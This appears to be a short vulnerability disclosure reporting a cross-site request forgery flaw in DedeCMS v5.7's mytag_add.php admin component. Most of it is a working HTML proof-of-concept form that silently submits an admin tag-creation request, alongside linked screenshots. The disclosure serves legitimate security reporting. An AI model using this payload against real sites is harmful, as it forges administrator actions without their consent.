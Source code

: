 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/mytag_add.php
![1](https://github.com/Hckwzh/cms/assets/128144400/62d945da-e278-4fe0-95f2-7726a1f74f15)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mytag_add.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="token" value="825dfb63dc9afa15286cd7d0632f9b0c" />
      <input type="hidden" name="typeid" value="0" />
      <input type="hidden" name="tagname" value="cssc" />
      <input type="hidden" name="timeset" value="0" />
      <input type="hidden" name="starttime" value="2024&#45;03&#45;26&#32;16&#58;11&#58;46" />
      <input type="hidden" name="endtime" value="2024&#45;04&#45;25&#32;16&#58;11&#58;46" />
      <input type="hidden" name="normbody" value="" />
      <input type="hidden" name="expbody" value="" />
      <input type="hidden" name="imageField&#46;x" value="36" />
      <input type="hidden" name="imageField&#46;y" value="9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>







```
![2](https://github.com/Hckwzh/cms/assets/128144400/ee03dade-2ad0-4dca-a0e3-36984778fa90)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/e4785fc4-50c8-4568-b829-ef947c2aed1a)
